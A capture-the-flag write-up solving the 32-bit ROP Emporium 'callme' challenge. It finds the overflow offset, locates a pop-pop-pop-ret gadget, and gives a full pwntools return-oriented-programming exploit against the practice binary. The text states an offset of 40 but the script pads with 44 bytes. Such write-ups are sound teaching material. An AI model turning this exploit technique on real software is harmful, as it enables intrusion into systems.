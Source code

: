 ```yaml
---
layout: post
title: ROP Emporium Challenge 2 - Callme (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments.*
<!--more-->

# callme32

Link: https://ropemporium.com/challenge/callme.html


------------------------------------------


## 1. Calculating EIP overwrite offset

First, we check with GDB that the offset is still 40. It seems it is still 40, with 41 characters we see only one "41" in RIP registry::

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme32/images/Screenshot_1.jpg)



## 2. Studying the binary

Then, we need to find the addresses of "callme_one", "callme_two" and "callme_three". We can do this with objdump:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme32/images/Screenshot_2.jpg)

But we will use Python directly:

```
callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
```


## 3. Calling the functions

The idea is that in 32 bits, you must push the parameters to the stack before you make the call to a function:

```
push 3   ; third parameter
push 2   ; second parameter
push 1   ; first parameter
call callme_X
```
To move these values to the stack we will use a "pop; ret" gadget for each one or a "pop; pop; pop; ret" one, which we can find using ROPgadget:

```
python /root/tools/ROPgadget/ROPgadget.py --binary callme32
```

- 0x080488a9 : pop esi ; pop edi ; pop ebp ; ret


## 4. Final exploit

The final exploit is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'callme32'
p = process('./'+binary_name)

elf = ELF(binary_name)
rop = ROP(elf)

callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
log.info("callme_one:   "+  hex(callme_one))
log.info("callme_two:   "+  hex(callme_two))
log.info("callme_three: "+hex(callme_three))
pop_esi_edi_ebp = 0x080488a9

junk = "A"*44
rop =  junk
rop += p32(callme_one)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)
rop += p32(callme_two)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)
rop += p32(callme_three)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)

p.recvuntil("> ")
p.send(rop)
p.interactive()

```
When I execute it, it returns the value of the flag:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme32/images/Screenshot_3.jpg)